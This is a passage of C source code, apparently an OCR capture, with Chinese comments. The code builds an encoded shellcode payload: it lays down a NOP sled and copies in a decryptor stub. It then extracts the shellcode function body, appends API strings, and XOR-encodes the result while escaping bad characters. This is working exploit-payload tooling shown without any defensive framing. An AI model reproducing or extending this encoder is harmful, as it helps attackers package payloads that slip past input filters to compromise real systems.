   memset(buff,nop_CODE,BUFFSIZE);                       //缓冲区填充
  memcpy(buff+nop_LEN,pDcrypt_addr,EncCode_len);        //把DecryptSc代码复制进buff

  //
  //处理ShellCode代码,如果需要定位到代码的开始
  //
  pSc_addr=(char *)ShellCodes;     //shellcode的地址

  //调试状态下的函数地址处理，便于调试
  ch=*pSc_addr;
  if (ch==0xe9)
  {
      pSc_addr++;
      i=*(int *)pSc_addr;
      pSc_addr+=(i+4);      //此时指向函数的实际地址
  }

  //如果需要定位到实际ShellCodes()的开始，这个版本中是不需要的
  /*
  for (k=0;k<MAX_Sc_Len ;++k ) if(memcmp(pSc_addr+k,fnbgn_str,BEGINSTRLEN)==0) break;
  if (k<MAX_Enc_Len) pSc_addr+=(k+8);   //如找到定位实际代码的开始
  */

  //找到shellcode的结尾及长度
  for(k=0;k<MAX_Sc_Len;++k) if(memcmp(pSc_addr+k,fnend_str,ENDSTRLEN)==0) break;
  if (k<MAX_Sc_Len) Sc_len=k;
  else
  {
      k=0;
      printf("\nNo End str defined in ShellCodes function!Please Check....\n");
      return 0;
  }


  //把shellcode代码复制进sc_buff
  memcpy(sc_buff,pSc_addr,Sc_len);

  //把字符串拷贝在shellcode的结尾
  for(i=0;i<MAX_api_strlen;++i) if(memcmp(ApiStr+i,"strend",API_endstrlen)==0) break;
  if(i>=MAX_api_strlen)
  {
      printf("\nNo End str defined in API strings!Please Check....\n");
      return 0;
  }
  memcpy(sc_buff+k,ApiStr,i);

  Sc_len+=i;        //增加shellcode的长度

  //
  //对shellcode进行编码算法简单，可根据需要改变
  //
  k=EncCode_len+nop_LEN;    //定位缓冲区应存放ShellCode地址的开始

  for(i=0;i<Sc_len;++i){

     ch=sc_buff[i]^Enc_key;
     //对一些可能造成shellcode失效的字符进行替换
     if(ch<=0x1f||ch==' '||ch=='.'||ch=='/'||ch=='\\'||ch=='0'||ch=='?'||ch=='%'||ch=='+')
     {
        buff[k]='0';
        ++k;
        ch+=0x31;
     }
     //把编码过的shellcode放在DecryptSc代码后面
     buff[k]=ch;
     ++k;
  }
